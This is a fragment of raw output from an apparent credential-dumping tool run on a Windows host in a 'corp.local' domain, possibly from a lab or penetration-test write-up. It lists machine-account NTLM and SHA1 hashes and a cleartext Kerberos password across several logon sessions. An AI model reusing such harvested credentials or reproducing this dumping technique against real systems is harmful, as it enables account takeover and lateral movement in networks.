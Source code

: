 ```powershell
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : S-1-5-90-0-1
	msv :	
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : CORP
	 * NTLM     : b0008678126a9a7143961c96161725a4
	 * SHA1     : 570e49936ec2e700501645c102f53b64f66be28d
	tspkg :	
	wdigest :	
	 * Username : MS01$
	 * Domain   : CORP
	 * Password : (null)
	kerberos :	
	 * Username : MS01$
	 * Domain   : corp.local
	 * Password : 4G27%CXs#vdBm&ZyC@OA4@[H3%F;fksT[tUqML/4AYDJ^(sxXUqQWdT"!WdPj$HC(Pj1d0r75fV<FhyE$u3lAT7@CGiiP-si[D[jzHxtsi40iw ;]H6jh)Bm
	ssp :	
	credman :	

Authentication Id : 0 ; 66237 (00000000:000102bd)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : S-1-5-90-0-1
	msv :	
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : CORP
	 * NTLM     : b0008678126a9a7143961c96161725a4
	 * SHA1     : 570e49936ec2e700501645c102f53b64f66be28d
	tspkg :	
	wdigest :	
	 * Username : MS01$
	 * Domain   : CORP
	 * Password : (null)
	kerberos :	
	 * Username : MS01$
	 * Domain   : corp.local
	 * Password : 4G27%CXs#vdBm&ZyC@OA4@[H3%F;fksT[tUqML/4AYDJ^(sxXUqQWdT"!WdPj$HC(Pj1d0r75fV<FhyE$u3lAT7@CGiiP-si[D[jzHxtsi40iw ;]H6jh)Bm
	ssp :	
	credman :	

Authentication Id : 0 ; 35813 (00000000:00008be5)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : 
	msv :	
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : CORP
	 * NTLM     : b0008678126a9a7143961c96161725a4
```